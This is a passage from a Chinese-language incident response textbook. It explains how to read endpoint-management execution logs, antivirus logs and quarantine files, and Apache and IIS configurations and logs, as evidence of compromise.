LANDesk SLM将Duration时间记录为百纳秒并以小端二进制数据的形式存储在注册表中。First Started和Last Started值是作为二进制存储的Windows FILETIME数据结构。以下Python代码包含一个参考函数（decode_filetime），将FILETIME结构转换为可读日期：

```
import struct
from datetime import datetime
EPOCH_FILETIME = 116444736000000000
HUNDREDS_NANOSECONDS = 10000000
# January 01, 1970 as FILETIME
def decode_filetime(data):
    t = (struct.unpack('<Q', data)[0] - EPOCH_FILETIME) / HUNDREDS_NANOSECONDS
    return datetime.utcfromtimestamp(t)

```

虽然您可以浏览这些键并手动执行转换，但有更好的方法。在下一节中，我们将介绍几种解析SLM数据的方法。

##### **解析MonitorLog注册表键**

LANDesk提供了一个名为SLM Browser的免费实用程序，但可用版本不解析导出的注册表。因为该工具只解析活动系统上的注册表，所以您可以在执行实时响应时使用它来收集此数据。您可以在此处阅读有关SLM Browser并下载工具的更多信息：

- **前往网站下载**
  
    [community.landesk.com/support/docs/DOC-7062](http://community.landesk.com/support/docs/DOC-7062)
    

除了LANDesk的SLM Browser外，您还可以使用RegRipper插件landesk.pl从给定的注册表中解析这些值。使用RegRipper的一个优点是您可以解析导出的注册表以及现有系统。该插件最初于2009年发布，仅解析monitorlog的Last Started时间。Justin Prosco创建了一个更新的RegRipper插件，名为landesk_slm.pl，它解析其他字段并支持注册表反射。他还维护了一个名为landesk_slm.py的脚本的Python版本，该脚本使用Willi Ballenthin的python-registry库解析注册表并解码LANDesk SLM键。您可以从以下网站下载这些工具：

- **前往网站下载**
  
    **[RegRipper和landesk.pl](http://xn--regripperlandesk-5u21a.pl/)** [code.google.com/p/regripper](http://code.google.com/p/regripper)**Justin Prosco的注册表工具** [github.com/jprosco/registry-tools](http://github.com/jprosco/registry-tools)**Willi Ballenthin的Python注册表库** [github.com/williballenthin/python-registry](http://github.com/williballenthin/python-registry)
    

既然您更容易解析和查看所有SLM数据，我们想提供一些提示，这些提示应该有助于您识别恶意活动。

**需要注意的**

LANDesk管理套件允许管理员收集有关其网络上运行的应用程序的信息。作为事件响应者，您可以使用此信息查找入侵的证据。除了查找已知恶意软件的名称外，以下是一些示例用例，可用于在这些日志中查找恶意活动：

- **使用 Total Runs 的频率分析** 攻击者有时只会在系统上运行他们的工具一次然后将其删除。使用频率分析来查找 Total Runs 值较低的软件，可能有助于您识别系统上的恶意软件。
- **识别可疑的执行路径** 攻击者经常使用相同的路径来执行他们的恶意软件，无论是临时目录还是特定的目录。例如，从 Windows Recycle Bin 目录的根目录执行软件的任何操作都有很高的可能性是恶意的。
- **使用时间轴分析来识别被攻击的日期** 查找最后运行时间值的聚类，如 net.exe、net1.exe、cmd.exe 和 at.exe 等合法 Windows 应用程序。系统的普通用户很少使用这些内置的 Windows 工具，但攻击者很可能在短时间内使用它们。这些工具可能表明涉及受攻击系统的横向移动。
- **识别可疑的用户名** 使用 Current User 值来识别最后运行特定可执行文件的用户帐户。记录的应用程序数量较少的用户帐户可能是恶意的，并表明横向移动。试图识别通常不应访问系统的帐户，并寻找软件执行的证据。特别注意由域管理员运行的应用程序。
- **识别不再存在于文件系统中的可执行文件** 使用 LANDesk SLM 记录的可执行文件路径来识别已删除的文件。尽管像安装程序这样的合法应用程序可能会执行和删除临时可执行文件，但分析这些已删除的文件可能会引导您找到攻击者的活动。
  
    接下来，让我们介绍 Symantec 的 Altiris 客户端管理套件。
    

##### **Symantec Altiris 客户端管理套件**

另一个流行的企业终端管理解决方案是 Symantec 的 Altiris 客户端管理套件。这个套件有一个可选的应用程序计量组件，类似于 LANDesk 管理套件，记录在系统上运行的应用程序的执行历史记录。管理员通常使用应用程序计量进行性能监控，但您可以利用其日志来查找系统上的妥协证据。您可以在产品网站上阅读有关 Symantec Altiris 客户端管理套件的更多信息：

- **在网上获取它**
  
    [www.symantec.com/client-management-suite?fid=endpoint-management](http://www.symantec.com/client-management-suite?fid=endpoint-management)
    

现在，让我们讨论一下 Altiris 如何在调查中帮助您。我们发现的最有用的工件是 AeXAMInventory 日志。在接下来的两个部分中，我们将讨论此日志中存储的内容，并提供一些有关如何利用它的提示。

##### **Altiris 应用程序计量日志**

Symantec 的 Altiris 库存在一个名为 AeXAMInventory.txt 的制表符分隔值（TSV）文件中，这使得解析变得非常简单。文本文件的路径可能会有所不同，但您可以通过检查 HKLM\SOFTWARE\Altiris\Altiris Agent\InstallDir 注册表键来确定 Altiris 安装目录。

这些日志包含比 LANDesk 管理套件注册表键记录的执行文件更多的信息。Altiris 应用程序计量代理解析 PE 文件的版本信息，并将此数据存储在日志中，如果您正在寻找具有特定版本属性的恶意软件或其他文件，则这是极其有价值的。AeXAMInventory.txt 日志文件有不同的格式，因为产品的版本 7.0 引入了新的字段，例如记录的软件的文件大小和 MD5 哈希。AeXAMInventory.txt 文件不包括标识列的标题行。以下表格概述了 Symantec Altiris 应用程序计量产品指南中所描述的字段：

| Name
 | Description
 |
| --- | --- |
| Manufacturer | PE Version Info: Manufacturer |
| Internal Name | PE Version Info: Internal Name |
| File Version | PE Version Info: File Version |
| File Name | Name of the file |
| Product Name | PE Version Info: Product Name |
| Known As | PE Version Info: Internal Name |
| User | User account that last executed the software |
| Domain | Domain to which the account that last executed the software belongs |
| Discovered | Date of first execution |
| Month Year | Month and year of the last monitoring period when the software ran |
| Run Count | Number of times the agent recorded execution of the software during the monitoring period |
| Denial Count | Number of times the software has been denied from running during the monitoring period |
| Total Run Time | Total time (seconds) the software ran during the last monitoring period |
| Peak Memory | The largest amount of memory (bytes) that the software used during the last monitoring period |
| Avg CPU Usage | The average CPU percentage used by this application during the last monitoring period |
| Month End Summary | Boolean value indicating whether the current set of application summary data is the final set for the month |
- **在网上获取**
  
    [www.symantec.com/business/support/index?page=content&id=DOC4729](http://www.symantec.com/business/support/index?page=content&id=DOC4729)
    

在此日志中记录的字段可以由管理员进行配置，但我们遇到的情况很少有管理员更改默认值。

现在您已经熟悉了Altiris日志中的内容，我们想提供一些关于如何在调查中有效使用它们的指针。

##### **需要关注的内容**

LANDesk部分中描述的技术也适用于Altiris应用程序计量日志。但是，由于这些日志具有其他信息，因此还有另外一些需要关注的领域：

- **识别没有版本信息的可执行文件** 恶意软件作者经常剥夺其可执行文件的标识信息，例如存储在可执行文件中的版本信息。这会防止基于签名的安全产品，如杀毒软件和入侵检测系统，能够基于此信息对其进行标识。因为Altiris应用程序计量代理记录来自PE头的版本信息，它会留下不包含此信息的可执行文件的此字段为空。虽然一些合法应用程序不包含版本信息，但这是寻找系统上未知恶意软件的好的起点。
- **通过文件大小识别可疑的可执行文件** 恶意软件，特别是后门和实用程序，通常小于1MB。它们是相对简单的应用程序，没有商业应用程序中的大量用户界面和错误处理代码。此外，攻击者可能会使用不同的文件名在环境中安装相同的后门。虽然更改文件名，但大小可能不会改变，因此在这些日志中查找此值变得微不足道。

#### **杀毒软件**

杀毒软件在企业中无处不在。很少有人不安装某种类型的杀毒解决方案的系统进行调查。这些应用程序可以是证据的重要来源，因为它们通常具有冗长的日志记录并记录系统上的恶意活动的证据。在本节中，我们讨论三个主要杀毒软件包创建的取证证据。

- 注意：
  
    杀毒软件很少检测到攻击者在系统上尝试使用的所有程序。有时攻击者会执行常见的管理工具，这些工具不被视为恶意。其他时候，没有有效的签名，因此程序未被检测到。因此，杀毒解决方案可能会看到攻击者尝试执行的程序中的一些或全部。杀毒日志是一个有价值的证据来源，但它们最多只能提供不完整的图片。我们提到这一点是因为我们仍然看到太多的组织基于他们在杀毒日志中发现或未发现的内容做出结论。
    

**杀毒隔离**

大多数杀毒解决方案都包括一种名为“隔离”的威胁删除机制。当杀毒解决方案检测到系统上的威胁时，它可以对文件进行编码并将其移动到磁盘上的指定位置。当可执行文件被编码并存储在隔离位置中时，它将无法在系统上执行，直到从隔离中恢复为止。将文件隔离是有用的，因为杀毒有时会将合法文件错误地识别为威胁。在这种情况下，用户可以简单地将文件恢复到其原始位置，而来自误报检测的后果是没有的。但是，对于事件响应器来说，杀毒隔离具有更为重要的保留证据的功能。

企业环境中的事件响应器应与杀毒软件管理员一起工作，以确保设置了隔离优先于删除文件的策略。许多杀毒应用程序默认情况下会删除任何检测到的风险文件。尽管这可以减轻单个系统上的风险，但此设置会对事件响应团队产生不利影响，因为它基本上破坏了证据。当杀毒删除文件时，事件响应器就没有机会收集文件并对其进行进一步的威胁指标检查。

每个杀毒产品都有其自己的编码隔离文件的方法，其中一些是复杂的专有格式。无论杀毒解决方案是否仅更改文件扩展名或使用对称密钥加密文件，通常都有一种从隔离中检索原始文件的方法。因此，通过正确理解杀毒引擎如何对文件进行隔离，事件响应器可以从受损系统中恢复文件。

##### **Symantec Endpoint Protection**

Symantec Endpoint Protection(SEP)是我们遇到的最常见的杀毒套件之一。在本节中，我们概述Symantec Endpoint Protection日志文件和SEP用于包含在系统上发现的威胁的隔离文件格式。您可以在Symantec的网站上阅读有关SEP的更多信息：

- **在网上获取**
  
    [www.symantec.com/endpoint-protection/?inid=us_ps_flyout_prdts_endptprot](http://www.symantec.com/endpoint-protection/?inid=us_ps_flyout_prdts_endptprot)
    

###### **日志文件**

Symantec终端保护客户端日志的默认位置为%ALLUSERSPROFILE%\Application Data\Symantec\Symantec Endpoint Protection\Logs。该目录中的文件以日期格式YYYYMMDD命名，以指示应用程序生成日志文件的日期。日志以纯文本形式存储，并且以逗号分隔，使其易于检查和解析。Symantec在其网站上提供了字段及其值的完整列表。当前版本的Symantec终端保护有59个字段，太多了，在这里无法列出。有关完整列表，请访问以下Symantec知识库文章：

- **上网查找**
  
    [www.symantec.com/business/support/index?page=content&id=TECH100099](http://www.symantec.com/business/support/index?page=content&id=TECH100099)
    

这里要强调的一个重要字段是“事件时间”字段，因为它以自定义日期格式表示。 Symantec终端保护以六个八位组成的自定义十六进制格式记录日期。每个八位组都可以解码为日期的一个组成部分，如下表所示：

| 八位组 | 描述 |
| --- | --- |
| 1 | 年份，自1970年以来的年数 |
| 2 | 月份，（一月= 0到十二月= 11） |
| 3 | 日 |
| 4 | 小时，24小时制 |
| 5 | 分钟 |
| 6 | 秒 |

Symantec的文档显示以下示例：具有日期时间戳200A13080122的日志条目对应于UTC时间2002年11月19日8:01:34 AM。要计算此日期，请将十六进制数字转换为十进制并进行以下计算：

```
20 hex = 1970+32 = 2002
0A hex = 10 (11月)
13 hex = 19
08 hex = 08
01 hex = 01
22 hex = 34

```

当Symantec终端保护在系统上检测到威胁时，除了记录到Logs目录中的日志文件中外，它还会在Windows应用程序事件日志中生成一个事件。事件将具有事件ID 51和Symantec AntiVirus作为源。日志消息通常以短语“Security Risk Found”开头，并包含检测签名的描述和关联文件的完整路径。

- 注意：
  
    我们有一个提示，可以在日志文件中查找有用的信息，不仅适用于SEP，还适用于所有杀毒软件。攻击者经常创建由于密码保护或其他解析问题而杀毒软件无法打开的存档或其他文件。很多时候，杀毒软件会记录包含文件名和路径的错误。这可以成为有价值的证据来源，因为攻击者很可能已经删除了此类文件。
    

###### **隔离文件**

Symantec Endpoint Protection默认在%ALLUSERSPROFILE%\
Application Data\Symantec\Symantec Endpoint Protection\Quarantine文件夹中创建隔离文件。隔离文件的文件扩展名为.vbn（VBN），并以自定义格式存储。每个被隔离的文件有两个VBN文件。第一个包含有关被隔离文件的元数据，第二个包含原始文件的编码副本。

在Symantec Antivirus的早期版本中，它的前身是Symantec Endpoint Protection，编码仅是原始文件XOR使用0x5A编码。Symantec Endpoint Protection现在使用0xA5的XOR值，并在编码文件中插入其他5字节序列。如果分析员仅使用0xA5密钥对VBN文件进行XOR解码，则所得文件的MD5将与被隔离的原始文件不匹配，并且不太可能正确执行。

Symantec提供了qextract.exe工具，用于从隔离中提取文件。但是，该工具有一个主要缺点-只能在隔离文件的系统上运行QExtract。因此，该工具无法用于从取证镜像或从受感染机器远程获取的VBN文件上提取。您可以从Symantec的网站下载QExtract工具，网址如下：

- **从网上获取**
  
    QExtract（SEP 11）[www.symantec.com/connect/sites/default/files/11xQextract.zip](http://www.symantec.com/connect/sites/default/files/11xQextract.zip)
    
    - *QExtract（SEP 12）**[www.symantec.com/connect/sites/default/files/12.1Qextract.zip](http://www.symantec.com/connect/sites/default/files/12.1Qextract.zip)

请注意，不同版本的Symantec Endpoint Protection需要不同版本的QExtract。随着新版本的SEP的发布，请务必搜索Symantec的网站以获取更新的QExtract版本。

因为我们努力避免修改证据，因此解码VBN文件的好方法是启动受影响系统的取证镜像的副本。在启动的副本中，您可以安全地运行QExtract，而不必担心修改证据。另一种选择是使用名为pyqextract.py的Python脚本，由Jamaal Speights开发。与QExtract不同，您可以在任何系统上运行此脚本，而不仅仅是SEP创建VBN的系统。但是，在我们测试该脚本时，它并没有始终恢复原始文件的精确MD5匹配。我们无法确定失败的模式，因此我们建议您在使用之前进行测试。更多信息，包括脚本，可在以下链接中找到：

- **从网上获取**
  
    [jamaaldev.blogspot.com/2013/06/symantec-quarantined-vbn-file-decoder.html](http://jamaaldev.blogspot.com/2013/06/symantec-quarantined-vbn-file-decoder.html)
    

##### **McAfee VirusScan**

McAfee VirusScan Enterprise是企业中另一个流行的杀毒软件套件。即使连接到企业管理服务器，此应用程序也会在主机上本地存储日志文件。响应事件的人员可以使用这些日志文件查找入侵的证据，而无需访问管理控制台甚至是本地应用程序的管理权限。

- **从网上获取**
  
    [www.mcafee.com/us/products/virusscan-enterprise.aspx](http://www.mcafee.com/us/products/virusscan-enterprise.aspx)
    

让我们先看看McAfee生成的日志文件，然后是有关McAfee文件隔离过程的信息。

###### **日志文件**

根据McAfee VirusScan产品指南，存储在系统上本地的应用程序日志的位置取决于Windows版本。对于Windows 7系统，日志的路径为%systemdrive%\ProgramData\McAfee\
DesktopProtection，而在所有其他版本的Windows中，这些日志存在于
%systemdrive%\Documents and Settings\All Users\ApplicationData\McAfee\
DesktopProtection。产品指南可在以下链接处获得：

- **从网上获取**
  
    [kc.mcafee.com/resources/sites/MCAFEE/content/live/PRODUCT_DOCUMENTATION/22000/PD22941/en_US/vse_880_product_guide_en-us.pdf](http://kc.mcafee.com/resources/sites/MCAFEE/content/live/PRODUCT_DOCUMENTATION/22000/PD22941/en_US/vse_880_product_guide_en-us.pdf)
    

日志目录中存储了六个日志文件，如下表所列。请注意，如果使用McAfee ePolicy Orchestrator（ePO）管理VirusScan，则这些文件可能在文件名前有“ePO_”前缀。

| File Name
 | Description
 | Fields
 |
| --- | --- | --- |
| AccessProtectionLog.txt | Logs applications that attempt to terminate McAfee VirusScan | Date, Time, Event, User, File Name |
| BufferOverflowProtectionLog.txt | Logs potential buffer overflow attempts | Date, Time, Executable That Caused the Overflow, Stack/Heap Overflow |
| MirrorLog.txt | Logs the location of mirrored DAT files and scan engines | Date, Time, Path to Mirror Files, Additional Information |
| OnAccessScanLog.txt | Logs results of files scanned on access | Date, Time, Detected Malware, Action Taken,Description |
| OnDemandScanLog.txt | Logs results from scheduled scans | Date, Time of Scan, Action Taken, Description |
| UpdateLog.txt | Logs virus definition updates to the VirusScan engine | Date, Time of Update, Additional Information |

我们发现OnAccessScanLog.txt和OnDemandScanLog.txt日志文件通常是最有用的。这些日志将记录VirusScan已经从系统中隔离或删除的文件的证据，以及检测到的威胁名称。 McAfee提供了一个威胁情报门户，分析员可以在其中获取有关VirusScan和其他McAfee产品检测到的威胁的更详细信息：

- **GO GET IT ON THE WEB**
  
    [www.mcafee.com/us/threat-center.aspx](http://www.mcafee.com/us/threat-center.aspx)
    

除了文本日志外，McAfee还将病毒检测记录到Windows应用程序事件日志中，事件ID为258，源为McLogEvent。

接下来，让我们看看McAfee如何存储隔离文件以及您如何解码它们。

###### **隔离文件**

McAfee VirusScan创建具有.bup（BUP）扩展名的隔离文件。在默认安装中，这些文件位于％systemdrive％\Quarantine目录中。 BUP文件包含VirusScan清理的任何恶意工件，并由两个部分组成：BUP容器中文件的元数据和实际的工件本身。这些部分中的每一个都是使用0x6A进行异或编码，然后在最新版本的VirusScan中压缩为OLE复合文件格式。

要提取隔离文件，请使用支持OLECF文件解压缩的实用程序（例如7-Zip）打开BUP文件。解析后，BUP文件应包含名为Details和File_0的文件，其中Details包含有关隔离文件的元数据，而File_0则是实际的隔离文件。使用诸如McAfee FileInsight之类的十六进制编辑器，您可以解码隔离文件并恢复原始文件以进行进一步分析。

下面显示了已解码的详细信息元数据的示例。这显示了检测时间以及被隔离文件的原始名称，该文件在此情况下为C：\Windows\system32\pwdump.exe。

```powershell
[Details]
DetectionName=PWCrack-Pwdump.a
DetectionType=16
EngineMajor=5400
EngineMinor=1158
DATMajor=7075
DATMinor=0
DATType=2
ProductID=12106
CreationYear=2013
CreationMonth=5
CreationDay=15
CreationHour=3
CreationMinute=8
CreationSecond=48
TimeZoneName=Eastern Daylight Time
TimeZoneOffset=240
NumberOfFiles=1
NumberOfValues=0

[File_0]
ObjectType=5
OriginalName=C:\WINDOWS\SYSTEM32\PWDUMP.EXE
WasAdded=0
```

##### 趋势科技OfficeScan

趋势科技OfficeScan是另一种企业常遇到的杀毒软件。与赛门铁克和麦克菲一样，管理员可以远程管理这个安全套件，但它还可以在主机上本地存储检测到的恶意活动证据。您可以在以下产品网站上了解更多关于趋势科技的信息：

- **点击访问**
  
    [www.trendmicro.com/us/enterprise/product-security/officescan/index.html](http://www.trendmicro.com/us/enterprise/product-security/officescan/index.html)[trendedge.trendmicro.com/pr/tm/te/document/OfficeScan_10_Report_Mappings_091130.pdf](http://trendedge.trendmicro.com/pr/tm/te/document/OfficeScan_10_Report_Mappings_091130.pdf)
    

###### 日志文件

趋势科技OfficeScan将有关检测到的威胁的信息存储在名为pccnt35.log的文件中，该文件位于OfficeScan安装目录的Misc子目录中。该日志文件是纯文本文件，并使用**<;>**作为分隔符来包含七个值。以下表格列出了此文件中包含的字段的详细信息，如趋势科技OfficeScan 10报告对象参考指南中所述：

| 字段 | 描述 |
| --- | --- |
| 日期 | 存储格式为YYYYMMDD的日期 |
| 时间 | 事件的客户端本地时间，格式为HHMM |
| 感染名称 | 对应于感染的签名的名称 |
| 扫描结果 | 事件的结果。此字段的代码为：0：成功清除。1：成功移动。2：成功删除。3：成功重命名。4：对于实时扫描，它是“通过>拒绝访问”。5：清除失败。6：移动失败。7：删除失败。8：重命名失败。10：清除失败（已移动）。11：清除失败（删除）。12：清除失败（重命名）。13：对于实时扫描，它是“通过>拒绝访问”。对于其他扫描，它是“通过”。14：清除失败（移动失败）。15：清除失败（删除失败）。16：清除失败（重命名失败）。25：已通过（已批准）潜在的安全风险。 |
| 扫描类型 | 扫描类型。此字段的代码为：0：手动扫描1：实时扫描2：计划扫描3：立即扫描4：损坏清理服务（DCS）扫描 |
| 未使用 | 未使用的字段 |
| 路径 | 感染文件的路径 |

以下是趋势科技OfficeScan的日志条目示例：

```powershell
20130501<;>1059 <;>HKTL_PWDUMPBD<;>0<;>1<;>0<;>C:\WINDOWS\system32\pw-
dump.exe<;>
```

此条目显示，名为 C:\WINDOWS\system32\pwdump.exe 的文件使用签名 HKTL_PWDUMPBD 在2013年5月1日10:59（当地时间）进行实时扫描并成功清除。

###### **隔离文件**

在默认安装中，Trend Micro OfficeScan将隔离文件存储并加密在名为SUSPECT的安装目录子文件夹中。Trend Micro提供了一个名为VSEncode.exe的工具，允许管理员解密这些隔离的文件并还原内容。

要使用VSEncode.exe实用程序解密隔离文件，请创建一个文件列表，列出要解密的文件。在此文件中，指定隔离文件的完整路径，每行一个，并将文件保存为.ini或.txt文本文件。创建此文件后，运行以下命令，其中<configuration_file>是创建的文件列表的路径：

```
     VSEncode.exe /d /i <configuration_file>

```

这将解密配置中列出的文件，并允许您对检测到的恶意软件执行分析。 Trend Micro提供有关还原隔离文件的其他信息，请访问以下网站：

- **上网查找**
  
    [docs.trendmicro.com/all/ent/officescan/v10.6/en-us/osce_10.6_olhsrv/ohelp/scan/](http://docs.trendmicro.com/all/ent/officescan/v10.6/en-us/osce_10.6_olhsrv/ohelp/scan/)
    scanactvmec.htm
    

### **Web服务器**

当公司的主页被篡改，黑客SQL注入杂志网站或僵尸网络关闭信用卡处理器的门户网站时，肯定涉及Web服务器。 Web服务器用于交付大部分互联网联系，并因此在调查中经常遇到。有效地使用来自Web服务器的证据需要了解基本的Web协议，相关的配置文件和关联的日志文件。在本节中，我们涵盖了我们遇到的两种最常见的Web服务器解决方案：Apache HTTP服务器和Microsoft Internet Information Services（IIS）。在我们检查特定的Web服务器解决方案之前，让我们先了解一些关于Web服务器的一般信息。

#### **Web服务器背景**

Web服务器使用超文本传输协议（HTTP）接收和响应来自客户端（例如Web浏览器）的请求。最常用的两个协议命令（称为方法）是GET和POST。 GET请求通常用于从Web服务器检索内容，而POST请求通常用于上传数据。 Web服务器可以配置为侦听任何TCP端口，但是按照惯例，HTTP客户端在流量未加密时连接到TCP端口80上的服务器，并在使用安全套接字层（SSL）时连接到TCP端口443。

当Web服务器首次创建时，它们仅将客户端的请求映射到特定目录中的文件并提供响应。今天，Web服务器和HTTP协议具有更多的功能。其中一个重要的功能是虚拟主机的概念。该功能通过单个Web服务器处理多个不相关的网站的内容 - 所有使用相同的TCP端口和相同的IP地址。虚拟主机功能允许仅运行一个Apache服务器实例的单个系统托管数百甚至数千个单独的网站。当您回应被入侵的Web服务器时，您必须牢记这一点 - 您采取的行动可能会影响所有这些网站，其中一些可能不是事件的直接部分。

HTTP协议提供了更多的广泛功能。如果您想了解有关HTTP协议的更多信息，请参阅以下链接中的请求评论（RFC）2616：

- **上网查找**
  
    [www.ietf.org/rfc/rfc2616.txt](http://www.ietf.org/rfc/rfc2616.txt)
    

然而，您在此学习的是如何在调查期间利用Web服务器提供的证据。 Web服务器的两个主要证据来源是日志文件和Web服务器内容。首先让我们谈谈日志文件。

Apache和IIS的日志文件以纯文本形式存在，尽管每个文件都有自己的格式。默认情况下，大多数Web服务器将记录每个请求的摘要 - 包括客户端的IP地址，请求的URL，HTTP方法和服务器结果（成功，错误等）。 Web服务器记录可以自定义，每个解决方案都有可用的独特详细信息。在大多数情况下，默认日志记录足以帮助调查。我们对Web服务器日志文件执行的最常见搜索是

- 指定时间范围内的请求
- 发往或来自特定IP地址的请求
- 特定URL的请求
- 包含给定User-Agent字符串的请求

有时，我们执行统计或其他类型的分析，以尝试确定异常活动。其中一些技术在下一章中讨论。

在企业环境中，我们有时会发现负载均衡机制会“屏蔽”Web服务器的某些详细信息。因为负载均衡器充当客户端的代理，所以Web服务器只与负载均衡器直接通信。这导致Web服务器记录的是负载均衡器的IP地址而不是实际发起请求的客户端的IP地址，这可能会防止您追踪恶意活动。在某些情况下，您可以通过检查负载均衡器日志来解决此问题。但是，可能很难将Web服务器日志中的活动与负载均衡器日志中的活动相互关联。一个好的解决方案是配置负载均衡器以“传递”请求中有关客户端的一些详细信息，最常见的形式是称为X-Forwarded-For（XFF）的HTTP头。然后，您可以配置Web服务器记录每个请求的XFF头。如果您的环境中有Web服务器的负载均衡器，请积极获取日志样本，以便提前解决这些问题。我们遇到的一个常见的负载均衡器是F5的BIG-IP。有关如何处理此问题的一些指导，请参见以下文章：

- **GO GET IT ON THE WEB**
  
    [support.f5.com/kb/en-us/solutions/public/4000/800/sol4816.html](http://support.f5.com/kb/en-us/solutions/public/4000/800/sol4816.html)
    

第二个主要的证据来源是Web内容-组成网站的Web服务器上的文件。在涉及Web服务器的事件中，攻击者经常利用或修改现有的Web页面，甚至上传自己的一些页面，例如Webshell或其他工具。您需要检查这些文件以确定攻击者正在做什么。大多数内容都是纯文本，因此您可以在任何文本编辑器中查看文件。但是，在某些情况下，文件可能是编译的可执行文件或混淆的脚本。在这些情况下，我们在第15章中描述的技术可能有所帮助。

Web服务器日志和内容的位置因地而异。有一些我们通常使用的默认值，但您应该始终检查本地配置以确保您不会错过任何内容。我们在以下部分中涵盖了有关Apache和IIS的证据位置详细信息。

##### **Apache HTTP服务器**

Apache Web服务器是一个开源Web服务器，始于1995年，迅速赢得了人们的欢迎，现在托管着世界上大多数网站。大多数组织在类Unix操作系统上部署Apache，例如Linux或BSD，但Apache也在Microsoft Windows上运行。由于Apache是免费的、强大的和功能丰富的，我们在小公司和大企业中都能找到它。您可以从Apache网站了解更多信息或下载Apache HTTP服务器：

- **GO GET IT ON THE WEB**
  
    [httpd.apache.org](http://httpd.apache.org/)
    

让我们谈谈您感兴趣的第一个领域-配置。

###### **配置**

核心服务器组件是一个简单的HTTP服务器；然而，模块可以扩展其功能以支持诸如服务器端编程语言、加密和定制身份验证等功能。还有许多配置指令，影响服务器本身的日志记录和行为。由于配置指令随时间而变化，最好在Apache网站的“文档”部分进行研究。但是，在这一部分中，我们将触及一些特别重要的问题：

- **配置文件名称和位置** Apache配置文件的常见名称是httpd.conf、apache.conf和apache2.conf。在类Unix环境中，常见的配置文件位置是/etc、/etc/apache、/etc/apache2，每个路径都使用/usr/local作为前缀。如果在Web服务器上找不到这些文件名之一，您可以尝试在系统上搜索常见的配置指令：ServerRoot、DocumentRoot和LogFormat，以查找它。Apache还提供了一项功能，允许在名为.htaccess的文件中指定配置指令。这些指令应用于目录及其所有子目录，其中.htaccess文件位于其中。尽管不鼓励使用.htaccess文件，但它们很常见。
- **日志文件名称和位置** 默认日志文件名称为access.log和error.log。大多数Unix环境都安装了第三方工具来循环这些日志文件，因此您可能会发现这些名称带有编号或.gz扩展名，例如access.log.1或access.log.32.gz。在类Unix环境中，常见的Apache日志目录是/var/log/httpd、/var/log/apache和/var/log/apache2。由于日志记录可能是定制的，因此您应搜索Apache配置文件中的CustomLog和ErrorLog指令，以确定日志的存储位置。您还应检查任何LogFormat指令，以验证为每个日志格式记录哪些字段。
- **内容位置** 在类Unix环境中，常见的默认内容位置也称为Web根是/var/www。但是，Web根通常会更改。至少，您需要在所有配置文件中搜索ServerRoot和DocumentRoot指令，这些指令指定内容的位置。但是，找到可能提供内容的所有位置很困难，因为Apache服务器支持所有功能。最好与Web服务器管理员合作，以确保您识别所有内容位置。

Apache写入格式指定的配置日志文件，直到达到系统限制为止，例如耗尽存储空间。换句话说，Apache没有默认的日志文件大小限制或日志轮换，尽管许多部署实现了第三方工具来执行轮换。如果在启动Apache服务时存在日志文件，则Apache将附加到日志文件-先前的内容不受影响。

最后一个与配置相关的问题是我们之前提到的X-Forwarded-For问题。对于Apache来说，记录任何HTTP头都非常简单。在这种情况下，只需将**%{X-Forwarded-For}i**添加到您的LogFormat定义中，然后重新启动Apache服务。

###### **日志文件**

Apache将其日志文件存储为纯文本。其格式可以定制，并在Apache配置文件中指定。我们遇到的最常见格式为“Common Log Format（CLF）”，称为“common”，以及NCSA扩展/组合日志格式，称为“combined”。以下是组合格式的典型Apache日志条目示例：

```
172.24.13.37 - - [17/Feb/2014:16:31:43 -0500] "GET /download/2014021.txt HTTP/1.1"
         200 1330 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36
         (KHTML, like Gecko) Chrome/32.0.1700.107 Safari/537.36"

```

在此示例中，具有IP地址172.24.13.37的客户端执行了对URL /download/2014021.txt的GET请求，返回了1,330字节的数据。Apache服务器响应了200代码，这意味着请求成功。没有对应数据的字段用减号表示。Apache网站上提供了其他示例请求和更详细的相应字段分解：

- **获取有关Web的更多信息**
  
    [httpd.apache.org/docs/2.4/logs.html](http://httpd.apache.org/docs/2.4/logs.html)
    

##### **Microsoft Internet Information Services（IIS）**

Microsoft的IIS，前身为Internet Information Server，最初是为Windows NT 3.51创建的补充软件包。然后，Microsoft将IIS作为Windows NT 3.51 Service Pack 3（SP3）的可选Windows组件进行了合并。自那时以来，IIS已成为Microsoft Windows几乎所有版本的一部分，尽管IIS未安装在大多数非服务器版本的Microsoft操作系统上。最初，IIS比Apache更受欢迎。然而，自1996年中期以来，Apache在全球公共网站的市场份额上超过了IIS。尽管如此，我们经常遇到IIS，尽管这是否意味着流行还是其他内容还有待商榷。您可以在以下网站上阅读有关IIS的更多信息并下载免费版本（名为IIS Express）：

- **获取有关Web的更多信息**
  
    [www.iis.net](http://www.iis.net/)[www.iis.net/learn/extensions/introduction-to-iis-express/iis-express-overview](http://www.iis.net/learn/extensions/introduction-to-iis-express/iis-express-overview)
    

###### **配置**

通常情况下，可以通过Windows控制面板的“管理工具”|“Internet Information Services Manager”来配置IIS。但是，您可能无法访问IIS控制面板以查看当前设置。如果可以访问文件系统，则与事件响应器相关的大多数设置都保存在目录% systemdrive％\ system32 \ inetsrv \ config中名为applicationHost.config的XML格式配置文件中。此文件将列出每个配置的IIS站点的站点名称、站点ID、Web根目录和日志文件路径。以下是IIS applicationHost.config文件的摘录：

```powershell
<site name="Default Web Site" id="1">
  <application path="/">
    <virtualDirectory path="/" physicalPath="%SystemDrive%\inetpub\wwwroot" />
  </application>
  <bindings>
    <binding protocol="http" bindingInformation="*:80:" />
  </bindings>
</site>
<siteDefaults>
<logFile logFormat="W3C" directory="%SystemDrive%\inetpub\logs\LogFiles" /> <traceFailedRequestsLogging directory=
   "%SystemDrive%\inetpub\logs\FailedReqLogFiles" />
</siteDefaults>
```

需要注意的重要元素包括站点、虚拟目录、日志文件和绑定。在此配置中，“站点”提供了一个 ID（在此例中为1）。该 ID 用作日志目录名的最后一个字符，该目录将是由 logFile 指定的目录的子目录。因此，在此配置中，日志目录名将是 %SystemDrive%\inetpub\logs\LogFiles\W3SVC1。虚拟目录告诉您 Web 根目录所在的目录（对于此站点，为 %SystemDrive%\inetpub\wwwroot）。此示例中的值是典型 IIS 安装的默认值。

默认的 IIS 日志文件命名约定是 ex<yymmdd>.log，其中 <yymmdd> 是当前的两位数字年份、月份和日期。例如，2014 年 2 月 20 日的日志文件名为 ex140220.log。从 IIS 版本 7 开始，日志文件默认使用 UTF-8 编码。IIS 在文件名开头添加“u_”（例如 u_ex140220.log）以表示这一点。默认情况下，IIS 每天回滚日志，但可以配置为每周、每月、按文件大小或“从不回滚”。

